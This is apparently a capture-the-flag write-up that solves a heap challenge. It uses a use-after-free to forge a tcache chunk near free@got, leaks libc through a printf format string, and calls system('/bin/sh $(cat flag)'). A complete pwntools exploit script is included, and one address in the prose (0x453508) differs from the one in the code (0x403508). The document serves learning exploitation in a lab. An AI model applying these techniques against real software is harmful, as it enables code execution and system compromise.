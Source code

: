 ## Level: Medium

### Challenge

My first heap challenge, thank you @p0ch1ta for this super cool challenge. The intended way is **House of Muney** which is *leaklesss* heap exploit but I cheese'd it with getting a **leak** :)

More about House of Muney: https://maxwelldulin.com/BlogPost/House-of-Muney-Heap-Exploitation

### Checksec

![checksec](https://github.com/user-attachments/assets/c7e637d7-c3d5-4471-8c6a-f4e995039adf)

### How to leak? 

![menu](https://github.com/user-attachments/assets/2b949dc9-4cb1-4208-8fc7-b56701a8e267)

They give us an obvious vulnerability with `2. Change chunk size` but I didn't use it :P There is already **UAF** in this binary and I think that's all you need to get a shell. 

**TLDR: Create a fake chunk using UAF and overwrite free@got with printf to leak an address in libc then overwrite it again with system("/bin/sh")**

Here's my approach (The order matters!!):

```
1 - Malloc chunk 0 and chunk 1
2 - Free 1 then and 0
```

![free2](https://github.com/user-attachments/assets/baacd9f6-ec15-419b-a1d4-6fb438b15b0b)

Mind that `chunk 0` is behind `chunk 1`. 

```
3 - Edit free'd chunk 0 to fake a chunk (UAF)
```
![uaf1](https://github.com/user-attachments/assets/9078a95b-29db-4884-9abd-1af8c2f3f638)

Now `chunk 0` is pointing to `AAAAAAAA` instead of pointing to the `next chunk` (chunk 1). Of course we don't want chunk 0 to point some random address. We can make it point to a **mallocable** address close to free@got. 

![gotoffree](https://github.com/user-attachments/assets/406238ec-be12-4aa0-a2b1-75f209ac626e)

There are some caveats to fake a chunk and turns out `0x453508` is perfect. It's near got entries and most importantly mallocable. Make sure that `chunk 0 and 1` have *enough size* when we're reading into them to overwrite **free@got**. Which is at least `40 bytes` in this case. 

```
4 - Malloc twice so fake chunk gets allocated and points to near free@got
```

![empty](https://github.com/user-attachments/assets/6ef3a766-c2a5-41ad-b77d-f7ba363b9acb)

Tcache is empty, this means that our `fake chunk` is allocated. 

```
5 - Use "4. Edit chunk" option to start reading into fake chunk's next pointer. Which is somewhere near got entries. 
```

![readgots](https://github.com/user-attachments/assets/2c7867b9-1328-412e-94ab-78acb88873b8)

This looks good! But how are we going to get a leak? 

```
6 - Overwrite free@got with printf and use format strings to leak from the stack
7 - Free the fake chunk to call printf (specify format strings to leak info about addresses on the stack)
```

![leaksss](https://github.com/user-attachments/assets/89d35390-01fa-4434-b9d1-de18196c3bfd)


Now that we have our leak in libc, we can calculate the offset to `libc base` and we are almost done. 

```
8 - Overwrite free@got again but with system!
9 - Free the fake chunk to call system("/bin/sh")
```

![flaggg](https://github.com/user-attachments/assets/9999e3cf-a772-47a6-a610-841707b260e3)

Getting a shell was quite painful so I just write out the flag. This was really fun even tho it wasn't intented solution! I think I learned a lot from this and I must include following writeups that inspired me for this solution:

![](https://www.youtube.com/watch?v=qVLXHNqxpkE) (by c0nrad)

![](https://github.com/MarcoPellero/writeups/blob/main/backdoor/konsolidator/writeup.md)

### Full Exploit

```python
#!/usr/bin/env python3

from pwn import *
"""
p = gdb.debug("./chall_patched", gdbscript='''
    continue 
''')
"""

p = process("./chall_patched")

# allocate two chunks
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# free them 
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("0")

# USE AFTER FREE
# change chunk's pointer to somewhere (mallocable) near got entries
near_got = 0x403508 
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(p64(near_got))

# malloc twice
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# overwrite the got entry of "free" with "printf"
# leak an address in libc with format strings
payload = b"%17$pAAA" # this is rdi
payload += b"A" * 24
payload += p64(0x401120)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# leak(free) and calculate the offset to "system"
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b"Data")
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()

libc_leak = p.recvline()
print(libc_leak)
libc_leak = int(libc_leak[3:17], 16)

libc_base = libc_leak - 544229
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# overwrite the got entry of "free" with "system"
# write out the flag
payload = b"//bin/sh" # rdi
payload += b" $(cat flag)"
payload += b" " * 12
payload += p64(system)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# call system("/bin/sh...")
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.interactive()
```
![yay](https://tokyoking.github.io/assets/gifs/ccc.webp)

